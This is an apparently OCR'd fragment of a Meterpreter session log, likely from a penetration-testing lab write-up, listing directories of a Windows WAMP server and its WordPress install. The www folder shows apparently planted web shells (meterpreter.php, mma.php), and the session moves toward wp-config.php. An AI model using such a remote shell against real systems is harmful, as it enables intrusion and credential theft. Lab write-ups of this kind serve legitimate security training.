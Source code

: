 ```
================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
040777/rwxrwxrwx  4096     dir   2021-10-28 20:07:14 +0530  alias
040777/rwxrwxrwx  0        dir   2021-10-28 20:00:05 +0530  apps
100666/rw-rw-rw-  4790     fil   2010-12-31 21:09:42 +0530  barimage.bmp
040777/rwxrwxrwx  0        dir   2021-10-28 20:00:08 +0530  bin
100666/rw-rw-rw-  16054    fil   2011-01-04 01:19:34 +0530  images_off.bmp
100666/rw-rw-rw-  16054    fil   2011-01-04 01:19:34 +0530  images_on.bmp
040777/rwxrwxrwx  8192     dir   2021-10-28 20:00:09 +0530  lang
100666/rw-rw-rw-  15668    fil   2010-12-31 22:56:16 +0530  license.txt
040777/rwxrwxrwx  0        dir   2021-10-28 20:00:11 +0530  logs
040777/rwxrwxrwx  4096     dir   2021-10-28 20:00:09 +0530  scripts
040777/rwxrwxrwx  0        dir   2021-10-28 20:00:09 +0530  tmp
040777/rwxrwxrwx  0        dir   2021-10-28 20:00:09 +0530  tools
100666/rw-rw-rw-  182407   fil   2021-10-28 20:00:09 +0530  unins000.dat
100777/rwxrwxrwx  913246   fil   2021-10-28 20:00:04 +0530  unins000.exe
100777/rwxrwxrwx  209      fil   2021-10-28 20:00:09 +0530  uninstall_services.bat
100666/rw-rw-rw-  994      fil   2021-10-28 20:00:09 +0530  wampmanager.conf
100777/rwxrwxrwx  1169920  fil   2010-12-31 21:10:06 +0530  wampmanager.exe
100666/rw-rw-rw-  1147     fil   2021-10-28 20:00:09 +0530  wampmanager.ini
100666/rw-rw-rw-  12681    fil   2021-10-28 20:00:09 +0530  wampmanager.tpl
040777/rwxrwxrwx  4096     dir   2021-10-28 20:07:30 +0530  www
```

```
meterpreter > cd www\\
meterpreter > ls
Listing: C:\wamp\www
====================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  22409  fil   2021-10-28 20:00:09 +0530  index.php
100666/rw-rw-rw-  1189   fil   2021-10-28 19:49:02 +0530  meterpreter.php
100666/rw-rw-rw-  491    fil   2021-10-28 19:49:02 +0530  mma.php
100666/rw-rw-rw-  190    fil   2010-12-31 21:10:06 +0530  testmysql.php
040777/rwxrwxrwx  0      dir   2021-10-28 20:07:14 +0530  uploads
040777/rwxrwxrwx  4096   dir   2016-09-27 03:58:12 +0530  wordpress

meterpreter > cd wordpress\\
meterpreter > ls
Listing: C:\wamp\www\wordpress
==============================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  255    fil   2016-09-27 03:58:12 +0530  .htaccess
100666/rw-rw-rw-  418    fil   2013-09-25 05:48:11 +0530  index.php
100666/rw-rw-rw-  19935  fil   2016-03-06 01:44:25 +0530  license.txt
100666/rw-rw-rw-  7344   fil   2016-08-17 02:09:31 +0530  readme.html
100666/rw-rw-rw-  5456   fil   2016-05-25 02:32:28 +0530  wp-activate.php
040777/rwxrwxrwx  32768  dir   2016-09-07 20:28:58 +0530  wp-admin
100666/rw-rw-rw-  364    fil   2015-12-19 16:50:28 +0530  wp-blog-header.php
100666/rw-rw-rw-  1477   fil   2016-05-23 22:14:27 +0530  wp-comments-post.php
100666/rw-rw-rw-  2853   fil   2015-12-16 15:28:26 +0530  wp-config-sample.php
100666/rw-rw-rw-  3118   fil   2016-09-27 03:57:50 +0530  wp-config.php
040777/rwxrwxrwx  0      dir   2016-09-28 02:07:14 +0530  wp-content
100666/rw-rw-rw-  3286   fil   2015-05-24 22:56:25 +0530  wp-cron.php
040777/rwxrwxrwx  65536  dir   2016-09-07 20:28:59 +0530  wp-includes
100666/rw-rw-rw-  2382   fil   2016-05-23 22:14:27 +0530  wp-links-opml.php
100666/rw-rw-rw-  3353   fil   2016-04-14 23:23:28 +0530  wp-load.php
100666/rw-rw-rw-  34057  fil   2016-06-15 03:21:28 +0530  wp-login.php
```